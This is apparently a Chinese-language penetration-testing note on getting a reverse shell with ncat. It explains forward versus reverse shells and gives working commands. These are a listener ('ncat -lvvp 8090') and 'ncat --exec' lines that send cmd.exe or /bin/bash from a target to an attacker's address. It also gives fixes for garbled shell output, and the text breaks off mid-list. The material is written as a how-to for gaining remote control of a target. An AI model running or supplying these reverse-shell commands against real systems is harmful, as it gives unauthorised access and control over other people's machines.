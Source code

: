 ```yaml
---
layout: default
title: ncgetshell-本地服务
---
```


# 基本理论

1.

> * 访问分为<mark>服务端和客户端</mark>
> 
> * 服务端是有公网IP的端、客户端是不需要公网IP的端
> 
> * 连接由客户端发起，服务端等待连接

2.

> * shell分为<mark>正向shell和反向shell</mark>
> 
> * 正向shell是我的shell整到目标主机上去，没啥用，难道让目标来远控我？
> 
> * 反向shell是目标的shell整到我这来，这才有用呢

3.

> * 连接分服务端和客户端
> 
> * 渗透行为分我们和目标
> 
> * ncat只能把客户端的shell反弹到服务端
> 
> * 也就是说，<mark>使用ncat反弹shell时，目标只能是客户端，我们必须是服务端</mark>
> 
> * 我们服务端要有公网IP

4.

> * nc工具就是ncat工具，可单独也可集成在nmap中

# 把自己的端口发出去，等待连接

```batch
ncat -lvvp 8090
rem l listening
rem v verbose
rem v version
rem p port
rem bash也是同样的命令
```

# 目标作为客户端，主动连接我们

## windows

```batch
ncat --exec c:\windows\system32\cmd.exe 172.20.0.1 8090
rem 执行cmd.exe 并发到攻击者主机上去
```

## linux

```bash
ncat --exec /bin/bash 172.20.0.1 8090
# 执行bash，发到攻击者主机上去
```

# 解决getshell乱码

## windows

```batch
chcp 65001
rem 改为utf-8
rem change code page
```

## linux xshell改编码

> * 点击上方小地球


